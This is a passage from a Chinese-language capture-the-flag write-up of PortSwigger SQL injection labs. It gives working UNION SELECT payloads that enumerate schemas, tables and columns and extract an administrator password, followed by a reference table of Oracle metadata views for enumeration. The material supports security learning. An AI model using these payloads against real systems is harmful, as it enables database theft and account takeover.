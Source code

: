 这样就可以



## 5.实验室：SQL 注入攻击，列出非 Oracle 数据库上的数据库内容

![image-20250711165132689](D:\ctf wp\portswigger.assets\image-20250711165132689.png)

先sql注入来登录为止密码的账号

![image-20250711165315627](D:\ctf wp\portswigger.assets\image-20250711165315627.png)

![image-20250711170514341](D:\ctf wp\portswigger.assets\image-20250711170514341.png)

报库名：**category=Gifts' union SELECT '1',schema_name from information_schema.schemata--**

![image-20250711180919350](D:\ctf wp\portswigger.assets\image-20250711180919350.png)

报表名 猜测用户信息在punlic里：**category=Gifts' union SELECT '1',table_name from information_schema.tables where table_schema='public'**

![image-20250711181007618](D:\ctf wp\portswigger.assets\image-20250711181007618.png)

爆字段名：**category=Gifts' union SELECT '1',column_name from information_schema.columns where table_name='users_ddcldd'**

![image-20250711181048186](D:\ctf wp\portswigger.assets\image-20250711181048186.png)

爆密码 **category=Gifts' union SELECT '1',password_xsiwdv from users_ddcldd where username_ladwob='administrator'-- **

![image-20250711181428894](D:\ctf wp\portswigger.assets\image-20250711181428894.png)

最后登录账户即可



## 6.实验室：SQL 注入攻击，列出 Oracle 数据库内容

![image-20250711184502893](D:\ctf wp\portswigger.assets\image-20250711184502893.png)

| 目标                                  | 视图名                      | 说明                                          |
| ------------------------------------- | --------------------------- | --------------------------------------------- |
| 🔍 当前用户名（当前 schema）           | `SELECT user FROM dual`     | Oracle 中“库”和“用户”本质上是一回事（schema） |
| 📦 所有用户（相当于 MySQL 的“数据库”） | `all_users` / `dba_users`   | 所有 schema 名（需要 DBA 权限）               |
| 📁 当前用户的表                        | `user_tables`               | 当前用户自己创建的所有表                      |
| 📁 所有可访问的表                      | `all_tables`                | 当前用户“能看到”的所有表（包括自己和别人的    |
| 📄 当前表的字段                        | `user_tab_columns`          | 当前用户表的字段信息                          |
| 📄 所有可访问表的字段                  | `all_tab_columns`           | 当前用户可见所有表的字段信息                  |
| 库 表 字段                            | user table_name column_name |                                               |
